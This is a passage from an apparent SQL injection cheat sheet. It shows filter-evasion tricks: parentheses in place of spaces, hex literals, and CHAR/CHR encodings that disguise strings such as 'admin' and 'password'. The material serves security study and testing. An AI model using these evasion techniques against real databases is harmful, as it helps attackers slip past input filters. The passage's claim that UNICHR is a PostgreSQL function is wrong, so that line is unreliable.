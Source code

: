 #### Parentheses as Space Alternatives
```sql
-- Function call syntax
SELECT(user())FROM(users)WHERE(id=1)

-- Subquery syntax
SELECT(SELECT(user()))FROM(users)WHERE((1)=(1))

-- Mathematical expressions
SELECT(user())FROM(users)WHERE((1+1)=(2))
```

### Hex Encoding Techniques

Converting strings and characters to hexadecimal representation.

#### String Hex Encoding
```sql
-- MySQL hex strings
SELECT 0x61646D696E  -- 'admin'
SELECT 0x70617373776F7264  -- 'password'

-- Hex function
SELECT HEX('admin')  -- Returns '61646D696E'
SELECT UNHEX('61646D696E')  -- Returns 'admin'
```

#### Character Code Conversion
```sql
-- MySQL CHAR function
SELECT CHAR(97,100,109,105,110)  -- 'admin'
SELECT CHAR(112,97,115,115,119,111,114,100)  -- 'password'

-- SQL Server CHAR function
SELECT CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110)  -- 'admin'

-- Oracle CHR function
SELECT CHR(97)||CHR(100)||CHR(109)||CHR(105)||CHR(110) FROM dual  -- 'admin'
```

#### ASCII/Unicode Conversion
```sql
-- ASCII values
SELECT ASCII('A')  -- Returns 65
SELECT CHAR(65)    -- Returns 'A'

-- Unicode handling
SELECT NCHAR(65)   -- Returns 'A' (SQL Server)
SELECT UNICHR(65)  -- Returns 'A' (PostgreSQL)
```

### Sophisticated Pattern Matching Evasion
